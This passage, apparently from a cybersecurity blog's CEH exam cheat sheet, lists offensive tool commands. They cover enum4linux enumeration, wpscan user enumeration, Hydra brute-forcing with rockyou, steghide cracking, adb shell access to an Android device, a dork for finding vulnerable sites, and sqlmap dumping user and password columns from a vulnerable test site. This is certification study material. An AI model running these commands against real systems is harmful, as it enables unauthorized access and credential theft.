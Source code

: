     - `enum4linux -u martin -p apple -P 10.10.10.12 | -P get password policy info`
    - `enum4linux -u martin -p apple -G 10.10.10.12 | -G get groups and members info`
    - `enum4linux -u martin -p apple -S 10.10.10.12 | -S get share list info`
    - `enum4linux -u martin -p apple -a 10.10.10.12 | -a get all simple enumeration data [-U -S -G -P -r -o -n -i]`
- Wpscan:
  - `wpscan --url http://[IP Address]:8080/CEH --enumerate u` (enumerate the usernames stored in the website’s database)
- Vulnerability analysis:
  - `nikto -h http://testphp.vulnweb.com/login.php -Tuning 1`
- Bruteforce:
  - `Hydra -L username -P /usr/share/wordlists/rockyou.txt ftp://xiotz.com`
- Cryptography:
  - Hashcalc
  - Md5 calculator
  - Cryptool – decode .hex file
  - Bctextencoder – decrypt text using secret key
  - Veracrypt – anything related to volume
  - Crack hashes- hashes.com, cyberchef
- Steganography:
  - `Steghide embed -ef <filename> -cf <image> -p <passphrase>`
  - `Steghide extract -sf <image>` (extract hidden data from image)
  - `Stegcracker <image> /usr/share/wordlists/rockyou.txt` (crack the passphrase of image)
  - [Online Steganography Tool](https://futureboy.us/stegano/decinput.html)
  - `sha256sum <filename>` (find hash of the file)
- Android Hacking:
  - via USB
    - `./adb tcpip 5555`
    - `./adb connect 192.168.43.117:5555`
    - `./adb devices`
    - `./adb -d shell` (Direct an adb command to the only attached USB device)
    - `ls`
    - `cd sdcard`
    - `ls`
    - `cd dcim`
    - `cd camera`
    - `ls`
    - `./adb push C:\platform-tools\ota.zip /sdcard/Download` (from PC to Android)
    - `./adb pull /sdcard/Download/magisk_patched.img C:\platform-tools` (from Android to PC)
  - `sqlmap`
    - `site:http://testphp.vulnweb.com/ php?=` (for finding vulnerable site)
    - (for cookies- console->document.cookie)
    - `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs` (databases)
    - `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart –tables` (tables)
    - `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns` (columns)
    - (dump whole table)
    - `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --dump`
    - OR (dump individual column data)
    - `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump`
    - `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump`

Thank you for reading this blog. I hope this blog finds you helpful. Visit our other blogs to know more about cybersecurity and the future of cybersecurity and how you can make your career in cybersecurity.
